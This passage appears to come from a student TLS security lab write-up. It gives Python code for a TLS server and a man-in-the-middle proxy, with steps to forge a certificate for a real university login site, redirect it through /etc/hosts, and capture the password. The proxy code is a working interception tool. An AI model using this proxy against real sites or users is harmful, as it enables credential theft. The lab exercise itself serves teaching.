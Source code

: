 ```python3
sock.bind(('0.0.0.0', 443))
sock.listen(5)

while True:
    newsock, fromaddr = sock.accept()
    try:
        ssock = context.wrap_socket(newsock, server_side=True)
        print("TLS connection established")
        data = ssock.recv(1024)              # Read data over TLS
        pprint.pprint("Request: {}".format(data))
        ssock.sendall(html.encode('utf-8'))  # Send data over TLS

        ssock.shutdown(socket.SHUT_RDWR)     # Close the TLS connection
        ssock.close()

    except Exception:
        print("TLS connection fails")
        continue
```

  - In the `proxy.py` code the `Bank32` string on every response gets replaced by `FEUP22`. This way we show our MITM agent is working.

- **Launch the MITM attack on a real HTTPS website that has a login. Steal the password.**
  - **Target:** https://wayf.up.pt/idp/profile/SAML2/Redirect/SSO?execution=e1s2
  - Generate `wayf.up.pt` certificate by running `gen_cert_wayf.sh` and move the certificates to the `server-certs/` folder.
  - Append `/etc/hosts` in the Host Vm with `10.9.0.143      wayf.up.pt`.
  - Launch `proxy.py`

```python3
#!/usr/bin/env python3

import socket
import ssl
import pprint
import threading

def process_request(ssock_for_browser):
    hostname = "wayf.up.pt"

    # Make a connection to the real server
    context_client = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)  # For Ubuntu 20.04 VM
    # context = ssl.SSLContext(ssl.PROTOCOL_TLSv1_2)      # For Ubuntu 16.04 VM
    
    cadir = '/etc/ssl/certs'
    context_client.load_verify_locations(capath=cadir)
    context_client.verify_mode = ssl.CERT_REQUIRED
    context_client.check_hostname = True
    sock_for_server = socket.create_connection((hostname, 443))
    ssock_for_server = context_client.wrap_socket(
        sock_for_server,
        server_hostname=hostname,
        do_handshake_on_connect=False
    )
    
    ssock_for_server.do_handshake() 
    request = ssock_for_browser.recv(2048)
    pprint.pprint("Request: {}".format(request))
    if request:
        # Forward request to server
        ssock_for_server.sendall(request)

        # Get response from server, and forward it to browser
```